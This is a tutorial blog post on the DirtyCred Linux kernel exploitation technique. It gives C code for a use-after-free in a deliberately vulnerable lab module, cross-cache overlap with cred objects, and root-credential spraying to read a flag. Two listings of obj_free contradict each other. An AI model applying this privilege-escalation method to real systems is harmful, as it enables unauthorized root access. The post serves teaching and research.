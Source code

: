 ```yaml
---
title: Linux Kernel Exploitation - DirtyCred
date: 2025-04-29
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain DirtyCred, a universal and data-only exploitation technique that allows us to escalate privileges without a write primitive. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/dirty-cred) beforehand.

## Analysis
The vulnerable LKM provides three commands: `CMD_ALLOC`, `CMD_READ`, and `CMD_FREE`. These commands are used to allocate, read from, and free objects defined as follows:
```c
#define OBJ_SIZE    0xc0

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` internally uses `kmem_cache_zalloc`. This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}
```
Also, note that `kfree` is used instead of `kmem_cache_free` in `obj_free`. This is intentional, as we will use it later to free cred objects:
```c
static long obj_free(int id) {
    kfree(objs[id]);
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. By performing cross-cache attack explained in the [previous post](https://r1ru.github.io/posts/1), we can overlap victim objects with arbitrary kernel objects. However, we only have a read primitive, so it is difficult to control RIP. Therefore, in this post, we will take a data-only approach using DirtyCred.

## DirtyCred
The main idea of DirtyCred is to swap non-root credentials with root credentials. In this post, we target `struct cred`, which is allocated from a dedicated cache called cred. By performing cross-cache attack, we can overlap victim objects with cred objects. Since we can free victim cred objects (via `obj_free`), by spraying root cred objects, we can achieve root privileges.

## Exploitation
The initial steps are the same as in the [previous post](https://r1ru.github.io/posts/1/#exploitation). The difference is in the fourth step, where we allocate a large number of cred objects:
```c
char stack[NUM_CRED_SPRAY][0x1000];
for (int i = 0; i < NUM_CRED_SPRAY; i++) {
    assert(clone(try_read_flag, &stack[i][0xfff], CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, NULL) != -1);
}
```
Here, we use `clone` with some flags to allocate cred objects with low noise. This technique was discovered by willsroot. See their [blog post](https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html) for more details.

`try_read_flag` is defined as follows. It waits for the atomic variable, `try` to be true, checks if it has root previleges, and then reads the flag:
```c
int try_read_flag(void *arg) {
    char flag[0x10] = {};
    int fd;

    while(atomic_load(&try) != true) {
        sleep(1);
    }

    if (geteuid() == 0) {
        fd = open("/dev/sdb", O_RDONLY);
        assert(fd != -1);
        assert(read(fd, flag, 0x10) != -1);
        printf("[+] Flag: %s\n", flag);
        atomic_store(&win, true);
        exit(0);
    } else {
        atomic_fetch_add(&num_failed, 1);
        exit(0);
    }   
}
```
Next, we locate the victim cred object and free it:
```c
int victim = -1;
struct cred cred = {};
for (int i = 0; i < num_sprary; i += objs_per_slab * 2) {
    for (int j = i; j < i + objs_per_slab; j++) {
        obj_read(j, (char *)&cred, sizeof(cred));
        if (cred.uid == getuid() && cred.euid == geteuid()) {
            victim = j;
            printf("[+] Freeing the victim object: id = %d\n", victim);
            obj_free(victim);
        }
    }
}
if (victim == -1) {
    puts("[-] Failed to locate the victim objects");
    exit(1);
}
```
Finally, we spray root cred objects, which causes the victim cred object freed in the previous step to be swapped with a root cred object.
```c
for (int i = 0; i < NUM_ROOT_CRED_SPRAY; i++) {
    int pid = fork();
    if (pid == 0) {
        char *argv[] = {"/bin/su", NULL};
        execve(argv[0], argv, NULL);
    }
}
sleep(1);

puts("\n[*] Attempting");
atomic_store(&try, true);
```
By running this exploit, we can see the flag:
![win](/assets/img/posts/2025-04-29-3/win.png)

## References
1. Zhenpeng Lin, Yuhang Wu, and Xinyu Xing. 2022. DirtyCred: Escalating Privilege in Linux Kernel. In Proceedings of the 2022 ACM SIGSAC Conference on Computer and Communications Security (CCS '22). Association for Computing Machinery, New York, NY, USA, 1963–1976. https://doi.org/10.1145/3548606.3560585
2. willsroot. 2022. Reviving Exploits Against Cred Structs - Six Byte Cross Cache Overflow to Leakless Data-Oriented Kernel Pwnage. https://www.willsroot.io/2022/08/reviving-exploits-against-cred-struct.html